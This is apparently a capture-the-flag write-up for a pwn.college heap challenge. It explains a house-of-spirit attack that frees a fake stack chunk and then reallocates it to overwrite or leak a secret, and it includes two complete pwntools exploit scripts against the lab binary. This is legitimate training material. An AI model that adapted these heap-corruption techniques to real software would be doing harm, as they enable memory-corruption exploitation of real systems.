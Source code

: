 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 13
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-09 08:00:27 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit
---
```

## Information
- category: pwn


## Description 
> Leverage calling free() on a stack pointer to read secret data.

## Write-up

**Goal:** manipulate heap metadata to perform an overwrite of a secret value stored on the stack, then trigger verification to get the flag.

---

### Step 1 — Setup: Fake prev_size & size metadata

From analysis of the binary’s heap operations, we can place crafted metadata inside a heap chunk.  
This includes:
- `prev_size` field  
- `size` field  

We overwrite them such that a `free()` call will cause the allocator to treat the chunk as a different size and location.

---

### Step 2 — Free the fake chunk

By freeing the crafted chunk placed on the stack, we control where the **next malloc** returns.  
We pick a large size so that malloc returns a pointer into the stack memory we control.

---

### Step 3 — Overwrite secret

When the vulnerable program uses malloc with our controlled size, it returns a pointer to the stack.  
We then overwrite the secret value with a controlled string (e.g., `"AAA..."`).

Example:
```text
malloc(fake_chunk_size)
free(fake_chunk)
malloc(big_size)    # returns pointer to our target stack location
write("AAA...")
```

## Exploit
```python
from pwn import *

elf = context.binary = ELF("/challenge/stack-summoning-hard")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def stack_free():
    p.sendline(b"stack_free")

def stack_scanf(data):
    p.sendline(b"stack_scanf")
    p.sendline(data)

def send_flag(secret):
    p.sendline(b"send_flag")
    p.sendline(secret)

def exploit():
    data = b"A"*0x30 + p64(0) + p64(0x200)
    stack_scanf(data)

    stack_free()
    
    malloc(b"0",b"500")
    
    data = b"A"*300
    scanf(b"0",data)

    send_flag(b"A"*16)

    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```

other approche
```python
from pwn import *

elf = context.binary = ELF("/challenge/stack-summoning-hard")
context.log_level = "debug"
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def stack_free():
    p.sendline(b"stack_free")

def stack_scanf(data):
    p.sendline(b"stack_scanf")
    p.sendline(data)

def send_flag(secret):
    p.sendline(b"send_flag")
    p.sendline(secret)

def send_flag():
    p.sendline(b"send_flag")
    p.sendline(b"egrmayqpteprmrxc")

def exploit():
    malloc(b"0",b"32")

    data = b"A"*0x30 + p64(0) + p64(0x30)
    stack_scanf(data)

    stack_free()
    free(b"0")

    puts(b"0")

    p.recvuntil(b"Data: ")
    stack = u64(p.recvline().strip().ljust(8,b"\x00")) + 0xf5 - 0x40 + 8 # first part -8 
    log.success(f"stack: {hex(stack)}")

    malloc(b"0",b"32")
    malloc(b"1",b"32")

    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack))

    malloc(b"0",b"32")
    malloc(b"0",b"32")

    puts(b"0")
    
    p.recvuntil(b"Data: ")
    secret2 = p.recvline()
    log.success(f"secret part 2:{secret2}")

    send_flag()
  
    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```

